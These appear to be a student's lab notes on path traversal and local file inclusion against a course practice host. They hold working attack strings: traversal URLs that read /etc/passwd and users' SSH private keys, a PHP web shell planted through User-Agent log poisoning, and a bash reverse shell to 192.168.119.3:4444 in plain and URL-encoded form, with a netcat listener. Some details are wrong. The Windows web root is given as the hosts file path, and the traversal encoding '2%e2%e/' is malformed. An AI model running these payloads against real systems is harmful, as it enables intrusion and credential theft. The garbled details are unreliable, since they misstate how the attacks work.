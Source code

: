 # Traversal Attacks

../ to move back and given all webapps are just getting a file in a directory of the server we can abuse this to access root from web root

web root in linux are usually at: /var/www/html/

an exmaple attack: http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
9../

this traverse from the web root to etc/passwd where all user files are kept

we can then access the ssh private key of users from

/home/username/.ssh/id_rsa

remember to chmod 400 private_key otherwise ssh is going to complain

ssh -i dt_key -p 2222 offsec@mountaindesserts.com

ssh command to connect via port 2222 using a private key file instead of passcode

on windows web root is at C:\Windows\System32\druvers\etc\hosts
note that ../ and ..\ on windows

more varied log location in windows need to read documentation of each server provider


ASCII encoding: 

sometimes web app detects characters such as .. to prevent traversal attacks

encode with ASCII: ../ == 2%e2%e/

# File Inclusion Vulnerabilities

Local Files Inclusion and Log poisoning

by changing the user-agent in a get request to

<?php echo system($_GET['cmd']); ?> (php command for a shell)

we trigger the payload by accessing the access.log with

curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log

we can access the cmd via http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=<command>

space works different in url so need to encode with ASCII to %20

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1" 
php command for forcing a reverse bash shell as php don't default on bash

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
URL encoded version

listen with nc -nvlp 4444
